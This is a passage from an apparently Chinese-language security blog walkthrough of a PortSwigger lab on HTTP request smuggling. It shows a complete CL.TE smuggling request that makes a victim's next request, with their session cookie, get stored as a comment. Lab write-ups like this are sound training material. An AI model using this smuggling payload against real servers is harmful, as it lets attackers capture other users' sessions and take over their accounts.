 >   注意：如果你不添加 Content-Type 字段的话，需要在最后添加一个`\r\n`，否则会返回 400

## Capturing other users’ requests

既然可以拿到中间件的请求，那么也可以拿到其他用户的请求，cookie等。

Lab：[Lab: Exploiting HTTP request smuggling to capture other users’ requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。
>
>   为了解决实验室问题，将请求偷运到后端服务器，导致下一个用户的请求存储在应用程序中。 然后检索下一个用户的请求并使用受害者用户的 cookie 访问他们的帐户。

找到个发评论的地方进行HTTP请求走私：

```http
POST / HTTP/1.1
Host: 0a4700a603f0e3c0c0bc8d6c0007009b.web-security-academy.net
Cookie: session=TJoTuRZfJ7lo34B90Qx38aS4mnL19b87
Content-Type: application/x-www-form-urlencoded
Content-Length: 270
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Length: 600
Content-Type: application/x-www-form-urlencoded
Cookie: session=TJoTuRZfJ7lo34B90Qx38aS4mnL19b87

csrf=T7b6sV5RKZSljTWkHQlZ5CqpA3AoLkhg&postId=8&name=2&email=1%4011.com&website=http%3A%2F%2Fwww.baidu.com&comment=
```

就可以得到：

![image-20221007231347789](2022-10-HTTP/image-20221007231347789.png)
